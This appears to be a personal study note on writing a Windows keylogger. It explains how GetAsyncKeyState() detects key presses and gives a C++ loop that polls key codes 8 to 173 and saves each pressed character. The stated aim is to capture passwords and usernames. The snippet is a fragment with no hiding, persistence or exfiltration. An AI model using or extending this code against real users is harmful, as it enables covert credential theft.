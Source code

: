 **Title:** ILY - Keylogger
**Tags:** [[ILY - Easy]]
**Topics:**

---
# ILY - Keylogger
# General
## startLogging()
Is not possible to know which key has been pressed after it happened, so the only way to know it is to check all possible valid keys in the ASCII symbols every time. Due to or goal, grab passwords and usernames, the last valid symbol is the "¡" that has the number 173.

Now that we are checking all the possible characters, its important to determine how are we going to get that "alarm" informing us that a key in the keyboard has been pressed.
Theres when the `GetAsyncKeyState()` comes in place.
`GetKeyState()` will return that a key has been pressed only if it happens in the same "instant", otherwise it will not detect it. This isn't really convinient in our case so we will use `GetAsyncKeyState()` instead, because it can retrieve the state of a key pressed at any time.

Its important to know how `GetAsyncKeyState()` works and which is the best way to implement it. You will see three types of implementations:
- `GetAsyncKeyState(key) == 0xFFFF8001` Verify if a key has been pressed and released.
- `GetAsyncKeyState(key) & 0x0001` Verify if a key has been pressed since the last call.
- `GetAsyncKeyState(key) & 0x8000` Verify if a key is actually pressed.
[//]: Note that (0xFFFF8001)Hexa == (-32767)Ca2
```ad-
```

```c++
for (char key = 8; key<=173; key++) {
	if (GetAsyncKeyState(key) == 0xFFFF8001) {
	    if (not specialKey(key)) {
            string str(1, key);
            save(str);
        }
    }
}
```

# First Iteration
